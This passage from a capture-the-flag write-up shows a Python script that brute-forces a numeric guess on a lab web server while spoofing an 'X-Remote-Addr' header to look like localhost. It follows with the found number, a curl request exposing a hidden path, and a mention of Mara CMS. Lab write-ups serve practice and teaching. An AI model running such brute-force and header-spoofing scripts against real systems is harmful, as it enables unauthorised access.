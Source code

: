~~~py
#!/usr/bin/env python3

import requests
import sys

url = "http://<MACHINE IP>:8085/"
s = requests.Session()

for number in range (10000,99999):
    headerd = {"X-Remote-Addr" : "127.0.0.1"}
    data = {"number" : number}
    output = s.post(url, headers=headerd, data=data)

    if "Oh no! How unlucky. Spin the wheel and try again." in output.text:
        pass
    else:
        print(f"WE GOT DA NUMBAH: {number}")
        sys.exit(0)
~~~

I set the range from 10000 to 99999 and after running the script, I got the right number:

~~~
└─$ python3 bruteforcer.py
WE GOT DA NUMBAH: 10921
~~~

Number: `10921`

### The Path

Let's send the number and see what we get:

~~~
└─$ curl -s "http://$IP:8085" -d "number=10921" | html2text

0
****** Spinner Wheel ******
    * [arrow]
    * [wheel]
***** Spin the wheel *****
spin
Feeling lucky? Guess the right number. You have a 0.004% chance of winning.
[Unknown INPUT type] Click
**** path: /YouGotTh3P@th ****          <----------
~~~

As you can see, we got a directory.

The path: `/YouGotTh3P@th`

### CMS

I tried to navigate to this directory on port 8085, but got a 404 code. I tried it on port 80 and got through and faced this page, which shows the existence of "Mara CMS":
